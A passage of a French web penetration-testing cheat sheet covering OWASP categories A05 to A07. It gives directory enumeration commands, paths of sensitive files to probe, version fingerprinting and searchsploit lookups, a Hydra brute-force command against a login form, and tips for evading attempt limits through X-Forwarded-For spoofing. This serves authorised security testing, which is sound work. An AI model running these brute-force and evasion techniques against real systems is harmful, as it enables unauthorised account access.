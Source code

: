 ### **A05:2021 - Security Misconfiguration**

#### **Directory Listing et fichiers exposés**
```bash
# Énumération de répertoires
dirb http://app-test.exemple.local/
gobuster dir -u http://app-test.exemple.local/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Fichiers sensibles communs
http://app-test.exemple.local/admin/
http://app-test.exemple.local/backup/
http://app-test.exemple.local/config/
http://app-test.exemple.local/db/
http://app-test.exemple.local/test/
http://app-test.exemple.local/.git/
http://app-test.exemple.local/phpinfo.php
http://app-test.exemple.local/server-status
```

### **A06:2021 - Vulnerable Components**

#### **Identification de versions**
```bash
# Headers révélateurs
curl -I http://app-test.exemple.local/
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/7.4.3

# Fingerprinting CMS
whatweb http://app-test.exemple.local/
wpscan --url http://app-test.exemple.local/ --enumerate vp

# CVE lookup
searchsploit apache 2.4.41
searchsploit php 7.4.3
```

### **A07:2021 - Authentication Failures**

#### **Attaques par force brute**
```bash
# Hydra HTTP POST
hydra -L users.txt -P passwords.txt app-test.exemple.local http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"

# Burp Suite Intruder
# 1. Capturer requête de connexion
# 2. Envoyer vers Intruder
# 3. Marquer paramètres username/password
# 4. Charger wordlists
# 5. Lancer attaque

# Bypass de limitation de tentatives
# Changer User-Agent, IP source (X-Forwarded-For)
# Reset session entre tentatives
```
